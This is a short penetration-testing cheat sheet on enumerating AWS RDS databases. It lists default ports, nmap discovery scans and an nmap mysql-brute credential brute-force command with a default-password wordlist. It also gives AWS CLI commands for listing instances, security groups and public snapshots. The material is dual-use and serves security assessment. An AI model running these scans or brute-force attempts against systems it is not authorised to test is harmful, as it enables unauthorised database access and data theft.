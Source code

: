 # AWS RDS Enumeration

## Databases and their corresponding ports:

#### 1) Amazon Aurora (port 3306)

#### 2) PostgreSQL (5432)

#### 3) MySQL (port 3306)

#### 4) MariaDB (port 3306)

#### 5) Oracle Database (port 1521)

#### 6) SQL Server (port 1433)

## Database discovery

    sudo nmap -Pn -p3306,5432,1433,1521 RDS_INSTANCE_NAME.RDS_INSTANCE_ID.REGION.rds.amazonaws.com

## Bruteforce for credentials

### Wordlist used in this example: https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt

    nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt RDS_INSTANCE_NAME.RDS_INSTANCE_ID.REGION.rds.amazonaws.com

### Upon login, we can further confirm that we are dealing with an AWS RDS Instance

    SHOW GLOBAL VARIABLES like 'tmpdir';

## Commands:

#### 1) Listing information about clusters in RDS

    aws rds describe-db-clusters 

#### 2) Listing information about RDS instances

    aws rds describe-db-instances 

#### 3) Look for public RDS Instance Snapshots

    aws rds describe-db-snapshots --snapshot-type public --include-public --region REGION | grep AWS_ACCOUNT_ID 

#### 4) Look for public RDS Database Cluster Instances

    aws rds describe-db-cluster-snapshots --snapshot-type public --include-public --region REGION | grep AWS_ACCOUNT_ID 

## If: IAMDatabaseAuthenticationEnabled: false -> Need password to access the instance

#### 5) Listing information about subnet groups in RDS

    aws rds describe-db-subnet-groups 

#### 6) Listing information about database security groups in RDS

    aws rds describe-db-security-groups 

#### 7) Listing information about database proxies

    aws rds describe-db-proxies 

